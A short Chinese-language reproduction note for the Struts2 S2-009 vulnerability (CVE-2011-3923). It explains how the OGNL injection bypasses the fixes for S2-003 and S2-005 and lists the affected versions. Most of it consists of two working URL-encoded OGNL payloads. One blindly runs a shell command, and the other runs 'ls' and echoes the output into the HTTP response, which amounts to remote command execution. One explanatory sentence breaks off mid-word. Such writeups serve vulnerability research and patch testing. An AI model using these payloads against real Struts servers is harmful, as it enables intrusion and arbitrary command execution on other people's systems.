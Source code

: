 # （CVE-2011-3923）s2-009

## 一、漏洞简介

这个漏洞跟s2-003 s2-005 属于一套的。

Struts2对s2-003的修复方法是禁止`#`号，于是s2-005通过使用编码`\u0023`或`\43`来绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/HelloWorld.acton?example=&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防

## 二、漏洞影响

2.1.0 - 2.3.1.1

## 三、复现过程

没回显

```bash
/ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true

```

有回显

```bash
/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27ls%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]

```

![图片.png](images/60dcac0d9fa449cda78bbd9f4db3fcab.png)

